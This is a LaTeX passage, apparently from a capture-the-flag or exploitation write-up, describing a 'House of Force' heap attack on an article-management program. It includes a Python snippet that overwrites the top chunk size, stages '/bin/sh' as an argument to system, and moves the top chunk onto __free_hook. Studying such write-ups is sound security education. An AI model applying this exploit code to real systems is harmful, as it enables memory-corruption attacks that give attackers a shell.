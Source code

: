 \documentclass{article}
\numberwithin{equation}{subsection}
\begin{document}
\subsubsection{Prepare House of Force}
This is the crucial part, code \ref{lst:house-of-force}. To start, we evaluate the \texttt{malloc\_size} as shown in section \ref{house-of-force}. Then we prepare a payload which is able to overwrite the \texttt{top\_chunk} size, line \ref{line:p-padding-and-payload}. We can finally exploit the \emph{heap overflow} vulnerability, setting also the name of the chunk to prepare the future parameter of the \texttt{system} function, line \ref{line:p-heap-overflow}. We have already allocated the maximum amount of available articles, that is 10. Before doing anything else, we have to free up some space, line \ref{line:p-free-space}.
Finally, we can move the the top chunk to the \texttt{\_\_free\_hook} location, line \ref{line:p-moving-top-chunk}. From this point on, it is reasonable to assume that the allocator is quite messed up, that is allocating additional chunks may cause an abort. We can safely allocate only a last chunk, the one required to overwrite the target location.\newline
\begin{minipage}{\textwidth}
\centering
\lstset{style=pythonstyle}
\begin{lstlisting}[caption={House of force setup with python script.},captionpos=b,label={lst:house-of-force}]
    # House of force
    print("[3]-Preparing house of force...")
    malloc_size = (libc.symbols['__free_hook'] - top_chunk - 0x20)~\label{line:p-malloc-size-evaluation}~
    payload = b"\x00"*0x158 + p64(0xffffffffffffffff) + b"\x00"*0x10~\label{line:p-padding-and-payload}~
    
    # Overwrite the top chunk size and set the article name to '/bin/sh\x00'
    print("[4]-Overwriting the top chunk size...")
    edit_article(7, "/bin/sh\x00", len(payload) + 0x20, payload)~\label{line:p-heap-overflow}~
    
    # To free up some space
    delete_article(1)~\label{line:p-free-space}~
    delete_article(3)
    
    # Moving the top_chunk
    new_article(b"whatever", malloc_size, b"WHATEVER")~\label{line:p-moving-top-chunk}~
\end{lstlisting}
\end{minipage}
\end{document}
